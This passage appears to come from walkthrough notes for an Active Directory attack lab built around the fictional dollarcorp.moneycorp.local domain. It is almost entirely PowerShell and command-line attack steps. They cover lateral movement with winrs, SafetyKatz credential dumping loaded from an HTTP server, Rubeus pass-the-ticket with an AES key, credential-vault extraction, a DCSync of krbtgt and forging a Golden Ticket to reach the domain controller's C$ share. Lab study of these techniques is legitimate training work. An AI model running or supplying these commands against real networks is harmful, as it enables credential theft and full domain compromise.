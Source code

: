 ```powershell

####Accessing dcorp-mgmt
winrs -r:dcorp-mgmt cmd

#### Extracting Keys using SafetyKatz on 'dcorp-mgmt'
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit



C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```

We can also look for credentials from the credentials vault. Interesting credentials like those used for scheduled tasksare stored in the credential vault.
```
Invoke-Mimi-Command '"token::elevate" "vault::cred /patch"'
```

# Persistent Attacks:
### Objective 8:


- Extract secrets from the domain controller of dollarcorp.
- Using the secrets of krbtgt account, create a Golden ticket. 
- Use the Golden ticket to (once again) get domain admin privileges from a machine.


##### (Golden Ticket attack)

###### Method 1:
```powershell


####Extract NTLM hashes
./Loader.exe -path http://WebServerIP/SafetyKatz.exe "lsadump::lsa /patch" "exit" 


####Extract aes256(secret),rc4 hashes using DCSYNC attack
./Loader.exe -path http://WebServerIP/SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" 

####Creating Golden Ticket using Secret of krbtgt
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"


####Accessing the CIFS or filesystem
dir \\dcorp-dc\C$
```

